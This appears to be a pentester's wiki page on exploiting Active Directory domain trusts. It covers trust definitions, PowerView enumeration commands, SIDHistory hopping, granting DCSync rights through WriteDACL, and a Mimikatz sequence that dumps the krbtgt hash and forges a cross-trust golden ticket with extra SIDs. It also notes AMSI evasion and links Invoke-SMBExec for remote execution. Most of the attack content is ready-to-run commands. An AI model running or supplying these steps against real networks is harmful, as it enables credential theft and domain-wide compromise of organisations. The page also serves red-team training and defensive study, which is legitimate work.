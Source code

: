 # Active Directory Domain Exploitation

_"Note that the Active Directory domain is not the security boundary; the AD forest is."_ - [Sean Metcalf](https://adsecurity.org/?p=1640)

For [[AD-Forest-Exploitation]] - one day...

#### Trust Definitions

For more depth and related information consider reading [[Active-Directory-Defined]].

Domain Trust Typology:
- Inbound - Domain A  is trusted by Domain B (Domain A gains access to resources in B) 
- Outbound - Domain A trust is outbound to another Domain B (Domain B gains access to resources in A) 
- Bidirectional - Both Domains A and B trust one another both gains access to resources in each other 
- [Transitive](https://learn.microsoft.com/en-us/azure/active-directory-domain-services/concepts-forest-trust) - *"Transitivity determines whether a trust can be extended outside of the two domains with which it was formed.
	- *A transitive trust can be used to extend trust relationships with other domains.*
	- *A non-transitive trust can be used to deny trust relationships with other domains.*"

[harmj0y's](https://blog.harmj0y.net/redteaming/a-guide-to-attacking-domain-trusts/) Domain Trust Attack Strategy
1) Enumerate all trusts 
2) Enumerate all users/groups/computers that either:
	- Have access to resources
	- Are in groups or have users from another domain
3) Perform targeted account compromise 

Enumerate with: Bloodhound, .NET methods,  Win32API, LDAP, PowerView.ps1

[snovvcrash.rocks](https://ppn.snovvcrash.rocks/pentest/infrastructure/ad/attack-trusts) + [[Powerview-Cheatsheet]]
```powershell
# Get Child domain FQDN
$env:userdnsdomain
# Get Forest Object
PV2 > Get-NetForest [-Forest megacorp.local]
PV3 > Get-Forest [-Forest megacorp.local]
# Get all domains in a forest:
PV2 > Get-NetForestDomain [-Forest megacorp.local]
PV3 > Get-ForestDomain [-Forest megacorp.local]
# Enumerate trusts for current domain via .NET 
nltest /trusted_domains
# Enumerate trusts via Win32 API (PowerView):
PV2 > Get-NetDomainTrust [-Domain megacorp.local] | ft
PV3 > Get-DomainTrust -API [-Domain megacorp.local] | ft
# Enumerate trusts via LDAP (PowerView):
PV2 > Get-NetDomainTrust -LDAP [-Domain megacorp.local] | ft
PV3 > Get-DomainTrust [-Domain megacorp.local] | ft
```
SIDHistory/ExtraSIDs hopping
```powershell
netdom.exe trust $childDomain.$domain.$tld /domain:$domain.$tld /quarantine
```

#### WriteDACL

`WriteDACL` to a domain, give DCSync rights to an unprivileged domain user account
```powershell
AddDomainObjectAcl -TargetIdentity "DC=,DC=local" -PrincipleIdentity $user -Rights DCSync
# Deprecate way
Add-DomainObjectAcl -Credential $Cred -TargetIdentity $domain.local -Rights DCSync
```

#### Ticket Attacks

Consider your options: [[Silver-Tickets]], [[Golden-Tickets]], [[Diamond-Tickets]] and [[Sapphire-Tickets]], but weight up the Opsec concerns. For a cross-trust [[Golden-Tickets]] with [[Mimikatz-Cheatsheet]] or [[Rubeus-Cheatsheet]]
```powershell
# import-module | . .\PowerView.ps1  -- somehow - beware AMSI and Blue
# Get Child domain FQDN:
PS > $env:userdnsdomain
# Child domain's DC machine account and its RID:
PV2 > (Get-NetComputer -ComputerName DC01.$childDomain.$domain.$tld -FullData | select ObjectSID).ObjectSID
PV3 > (Get-DomainComputer DC01.$childDomain.$domain.$tld | select ObjectSID).ObjectSID

# Get child domain SID
PV > Get-DomainSID
# SID of the parent domain
PS > (New-Object System.Security.Principal.NTAccount("megacorp.local","krbtgt")).Translate([System.Security.Principal.SecurityIdentifier]).Value
# Create ticket with
# Mimkatz 
# Remember to cycle through exfil and catagorise for data handling
privilege::debug
log
token::elevate
!+
lsadump::dcsync /user:$domainTargeting\krbtgt
# Altered From https://tryhackme.com/room/exploitingad
kerberos::golden /user:Administrator /domain:za.tryhackme.loc /sid:<sid of the child dc> /service:krbtgt /rc4:<Password hash of krbtgt user> /sids:<SID of Enterprise Admins group> /ptt
# rubeus
```

####  SMBExec.ps1

If you can cross trust and SMB is open a very non-Opsec safe way would be to use [Invoke-TheHash - InvokeSMBExec](https://github.com/Kevin-Robertson/Invoke-TheHash/blob/master/Invoke-SMBExec.ps1) to perform command execution over the network to remotely to achieve objectives.  


## References

[THM Room Exploiting AD](https://tryhackme.com/room/exploitingad)
[burmat](https://burmat.gitbook.io/security/hacking/domain-exploitation)
[harmj0y's guide to attacking domain trusts](https://blog.harmj0y.net/redteaming/a-guide-to-attacking-domain-trusts/)
[snovvcrash.rocks](https://ppn.snovvcrash.rocks/pentest/infrastructure/ad/attack-trusts)
[Sean Metcalf quote](https://adsecurity.org/?p=1640)